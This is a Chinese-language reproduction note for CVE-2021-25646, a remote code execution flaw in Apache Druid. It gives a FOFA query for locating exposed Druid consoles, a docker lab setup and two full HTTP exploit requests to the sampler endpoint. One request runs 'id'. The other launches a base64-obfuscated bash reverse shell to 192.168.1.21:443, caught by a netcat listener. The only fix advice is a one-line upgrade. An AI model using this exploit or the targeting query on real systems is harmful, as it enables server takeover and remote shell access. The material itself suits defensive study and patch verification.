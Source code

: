 # Apache Druid 代码执行漏洞

## 漏洞编号

CVE-2021-25646



## 漏洞描述

Apache Druid是一个开源的分布式数据存储。

Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。

然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。



## 影响版本

Apache Druid < 0.20.1



## FOFA语法

```
title="Apache Druid" && status_code="200"
```



## 环境配置

docker

```
docker-compose up -d
docker-compose ps
```

![image-20250411090007561](./assets/image-20250411090007561.png)



## 漏洞复现

访问192.168.1.15:8888

![image-20250411085933969](./assets/image-20250411085933969.png)



抓包

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 192.168.1.15:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 912

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

HOST不变，其余替换成当前数据包，右侧查看回显，成功执行id命令

![image-20250411090956080](./assets/image-20250411090956080.png)



尝试反弹shell

本地开始监听

```
nc -lvp 443
```

![image-20250411091442301](./assets/image-20250411091442301.png)

修改数据包

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 192.168.1.15:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 912

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"bash\",\"-c\",\"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjEvNDQzIDA+JjE=}|{base64,-d}|{bash,-i}\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

![image-20250411091430580](./assets/image-20250411091430580.png)

![image-20250411091434834](./assets/image-20250411091434834.png)

成功弹回shell



## 修复建议

升级到最新版Apache Druid